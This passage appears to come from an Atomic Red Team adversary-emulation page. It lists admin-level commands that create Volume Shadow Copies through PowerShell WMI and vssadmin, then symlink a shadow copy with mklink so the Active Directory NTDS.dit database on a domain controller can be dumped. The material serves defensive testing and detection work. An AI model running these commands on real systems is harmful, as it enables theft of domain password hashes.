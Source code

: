 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
(gwmi -list win32_shadowcopy).Create('#{drive_letter}','ClientAccessible')
```






<br/>
<br/>

## Atomic Test #8 - Create Symlink to Volume Shadow Copy
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by creating a symlink to Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** 21748c28-2793-4284-9e07-d6d028b66702





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | string | C:|
| symlink_path | symlink path | string | C:&#92;Temp&#92;vssstore|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe create shadow /for=#{drive_letter}
mklink /D #{symlink_path} \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```






<br/>

